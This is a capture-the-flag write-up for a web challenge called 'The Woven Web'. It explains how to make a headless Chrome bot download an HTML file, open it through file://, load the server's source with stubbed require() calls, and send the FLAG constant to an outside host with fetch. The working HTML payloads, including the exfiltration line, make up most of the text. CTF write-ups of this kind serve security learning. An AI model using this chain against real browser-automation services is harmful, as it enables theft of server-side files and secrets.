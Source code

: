 # The Woven Web (web, 766p, 6 solves)

The Woven Web is a client-side web challenge. 
An endpoint is provided to make a headless chrome browse a user-specified page.
The flag is stored in a `FLAG` constant in the server-side code.

It is possible to download a file in the headless browser by making the browser go to the following page: 

```html
<a href="./posix-poc.html" download id="x"></a>
<script>
x.click();
</script>
```

The file will be downloaded and stored in `/home/user/Downloads/`
It can then be access via the `file://` schema.
This file can include the file containing the flag with `<script>` since it is not affected by cross-origin.

```html
<script>
function require(name) {
    if (name === 'redis') {
        return {
            createClient: () => {}
        }
    } else if (name === 'express') {
        return () => {
            return {
                get: () => {},
                listen: () => {}
            }
        }
    } else if (name === 'fs') {
        return {
            existsSync: () => {}
        }
    }
}
</script>
<script src="/home/user/app/server.js"></script>
<script>
fetch('http://p6.is/?flag=' + encodeURIComponent(FLAG))
</script>
```